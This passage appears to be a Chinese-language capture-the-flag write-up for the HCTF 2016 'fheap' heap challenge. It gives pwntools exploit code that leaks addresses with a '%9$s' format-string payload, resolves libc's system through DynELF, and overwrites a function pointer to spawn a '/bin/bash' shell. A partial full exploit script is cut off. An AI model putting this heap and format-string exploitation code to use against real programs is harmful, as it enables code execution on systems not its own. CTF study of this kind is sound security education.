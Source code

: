 ```
执行 call eax 即 printf 时候，ebp = rsp ， 
…431a0  为EBP
…4e1a8  为ret地址
…4e1b0  为printf 的参数。
```

找到偏移是9 
这时编写leak函数

```python
def leak(addr):
    delete_str(0)
    payload = 'a%9$s'.ljust(0x18,'#') + p64(printf_addr)
    create_str(0x20,payload)
    sh.recvuntil("quit")
    sh.send("delete ")    
    sh.recvuntil("id:")
    sh.send(str(1)+'\n')
    sh.recvuntil("?:")
    sh.send("yes.1111"+p64(addr)+"\n")  
    sh.recvuntil('a')
    data = sh.recvuntil('####')[:-4]
    if len(data) == 0:
        return '\x00'
    if len(data) <= 8:
        print hex(u64(data.ljust(8,'\x00')))
    return data
```

### 泄露system地址并使用

```python
    #step 5 leak system addr
    create_str(0x20,payload)
    delete_str(1)
    #this one can not be ignore because DynELF use the delete_str() at begin     
    d = DynELF(leak, base_addr, elf=ELF('./pwn-f'))
    system_addr = d.lookup('system', 'libc')
    print 'system_addr:'+hex(system_addr)
    #step 6 recover old function to system then get shell
    delete_str(0)
    create_str(0x20,'/bin/bash;'.ljust(0x18,'#')+p64(system_addr))
    #attention /bin/bash; i don`t not why add the ';'
    delete_str(1)
    sh.interactive()
```



## 利用

[hctf2016-fheap-master.zip](2016-HCTF-fheap/hctf2016-fheap-master.zip)

```python
#coding=utf8
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
sh = process('./pwn-f')

def create_str(size,str1):
    sh.recvuntil("quit")
    sh.send("create ")
    sh.recvuntil("size:")
    sh.send(str(size)+'\n')
    sh.recvuntil("str:")
    sh.send(str1)#here why can not i user '\n'
```